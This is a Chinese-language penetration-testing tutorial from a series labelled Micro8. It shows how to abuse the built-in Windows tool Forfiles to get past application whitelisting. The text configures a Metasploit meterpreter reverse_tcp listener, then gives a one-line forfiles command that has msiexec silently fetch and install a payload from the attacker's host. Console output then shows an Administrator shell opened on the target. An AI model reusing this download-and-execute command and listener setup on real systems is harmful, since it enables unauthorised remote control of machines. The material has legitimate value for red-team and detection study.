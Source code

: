 ```yaml
---
title: 84、基于白名单Forfiles执行payload第十四季
date: 2019-09-21 19:06:42
comments: true
categories: 
 - Micro8系列
---
```



**注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

### Forfiles简介：

Forfiles为Windows默认安装的文件操作搜索工具之一，可根据日期，后缀名，修改日期为条件。常与批处理配合使用。

微软官方文档：  
https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc753551(v=ws.11)

说明：Forfiles.exe所在路径已被系统添加PATH环境变量中，因此，Forfiles命令可识别，需注意x86，x64位的Forfiles调用。

Windows 2003 默认位置：
`C:\WINDOWS\system32\forfiles.exe
C:\WINDOWS\SysWOW64\forfiles.exe`

Windows 7 默认位置：
`C:\WINDOWS\system32\forfiles.exe
C:\WINDOWS\SysWOW64\forfiles.exe`

**攻击机：** 192.168.1.4 Debian  
**靶机：** 192.168.1.119 Windows 2003

### 配置攻击机msf：
```code
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐

Payload options (windows/meterpreter/reverse_tcp): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐

EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)

LHOST 192.168.1.4 yes The listen address (an interface may be specified)

LPORT 53 yes The listen port 

Exploit target: 

Id Name
 ‐‐ ‐‐‐‐
0 Wildcard Target 

msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53 
```
![](../do/media/caedeec0997c3ee413473c009faeebcb.jpg)

### 靶机执行：Windows 2003

![](../do/media/6ff0192b4034032c1a131ee6ab4a876e.jpg)

```code
forfiles /p c:\windows\system32 /m cmd.exe /c "msiexec.exe /q /i http://192.168.1.4/Micropoor_rev_x86_msi_53.txt"
```

![](../do/media/43ffb66347850546f46981339421e5d4.jpg)

```code
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53
[*] Sending stage (179779 bytes) to 192.168.1.119
[*] Meterpreter session 15 opened (192.168.1.4:53 ‐> 192.168.1.119:133
1) at 2019‐01‐20 06:34:08 ‐0500
meterpreter > getuid
Server username: WIN03X64\Administrator
meterpreter > getpid
Current pid: 392
meterpreter > 
```

![](../do/media/27318b0234b037aa459041021632b857.jpg)

>   Micropoor
